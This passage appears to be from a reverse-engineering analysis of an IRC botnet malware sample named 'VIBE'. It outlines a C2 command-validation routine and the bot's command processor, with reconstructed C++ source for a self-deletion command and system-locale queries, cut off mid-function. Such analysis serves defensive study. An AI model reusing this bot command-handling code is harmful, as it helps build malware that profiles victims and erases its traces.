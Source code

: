 **Validation Process**:
1. **Memory Operations**:
   - Dynamic allocation
   - Buffer management
   - Size constraints
   - Cleanup handling

2. **Format Checks**:
   - Marker verification
   - Pattern matching
   - Command structure
   - Protocol compliance

**Security Features**:
- Command authentication
- Format validation
- Memory safety
- Error handling

**Relationship to Other Functions**:
- Used by command processor
- Supports C2 protocol
- Input validation
- Command filtering

### 28. VIBE::process_bot_command

**Purpose**: Main command processor for the IRC bot that handles various control commands and operations.

**Location**: Function located at address 0x404744

**Key Features**:
- Multiple command types
- System operations
- Download capabilities
- Channel management
- Geolocation checks
- Privilege detection
- Architecture awareness

**Implementation Details**:
```cpp
int process_bot_command(SOCKET sock, char** args, int arg_idx, int arg_count) {
    // Self-deletion command
    if (arg_count >= 1) {
        if (!strcmp(args[arg_idx], "rmrf")) {
            VIBE::create_self_deletion_batch();
            WSACleanup();
            ExitProcess(0);
        }
        
        // System info commands
        if (arg_count >= 2) {
            if (!strcmp(args[arg_idx], "sj")) {
                // Handle system info queries
                char response[20];
                memset(response, 0, sizeof(response));
                
                // Language info
                if (!strcmp(args[arg_idx + 1], "l")) {
                    char locale[20];
                    GetLocaleInfoA(LOCALE_SYSTEM_DEFAULT, 
                                 LOCALE_SABBREVLANGNAME,
                                 locale, 
                                 sizeof(locale));
                    sprintf(response, "%s", locale);
```